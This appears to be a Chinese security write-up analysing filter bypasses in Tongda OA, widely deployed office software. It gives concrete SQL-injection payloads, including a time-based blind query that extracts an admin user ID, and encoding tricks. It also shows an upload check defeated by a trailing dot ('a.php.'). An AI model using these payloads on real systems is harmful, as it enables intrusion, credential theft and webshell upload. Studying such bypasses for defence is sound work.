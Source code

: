 绕过方式：

（1）引入单引号绕过：

上述代码中while部分循环表示两个单引号之间的内容替换成\$s\$，然后拼接到$clean（一开始会截取第一个单引号之前的sql语句部分），处理完的$clean之后再进行各类if分支判断

**【<=11.9】法1：@+反引号包裹**

直接写单引号会被转义，使用@\`'\`方式绕过转义，此时该值为null。如果是sql表不允许某个字段为null，规避这个情况需要通过来char(@\`'\`)绕过。

**法2：两个@符号包裹**

`@'@`

**法3：双引号包裹**

`"'"`

**法4：反引号拼接**

```
`'`.``.后续sql语句
```

以TD_OA数据库user表为例，表结构中字段user_name为中文账户名，user_id为用户名，uid为用户id编号。

```
use TD_OA;
select * from user where user_name='a' and `'`.``.uid or if(substr((select user_id from user where uid = 1),1,1)='a',sleep(5),0)#';
```

![img](https://cdn.nlark.com/yuque/0/2022/png/21861937/1661428813331-29766064-b4e8-4cde-85f0-0b32666d9820.png)

该sql语句优先级等同于：

```
select * from user where user_name='a' and (`'`.``.uid or (if(substr((select user_id from user where uid = 1),1,1)='a',sleep(5),0)))#';
```

（2）盲注绕过

在11.9版本的通达中已经对响应的绕过方式进行了修复，首先会把所有转义之后的引号替换为空，然后再把反引号中的引号替换为空（见代码注释）。

同时对报错注入方式的常见函数过滤了，但是没有处理盲注，其中延时注入可以通过笛卡尔注入方式，逻辑盲注也没有过滤（根据页面情况响应来判断）

（3）编码绕过

hex编码和url编码，e.g.

```
select * from user where id = 1 and (select name from by_user where uid=1) like 0x25
```

- 上传防护：is_uploadable

  inc/utility_file.php::is_uploadable()是针对上传文件中的文件检测的函数，这里放11.10版本的代码：

```php
function is_uploadable($FILE_NAME)
{
  $POS = strrpos($FILE_NAME, ".");
  
  if ($POS === false) {
    $EXT_NAME = $FILE_NAME;
  }
  else {
    if (strtolower(substr($FILE_NAME, $POS + 1, 3)) == "php") {
      return false;
    }
    //“a.php”的“.php”进行检测，既然定位是.只要.后面不是php即可绕过，即：“a.php.”可以绕过
    $EXT_NAME = strtolower(substr($FILE_NAME, $POS + 1));
  }
....
```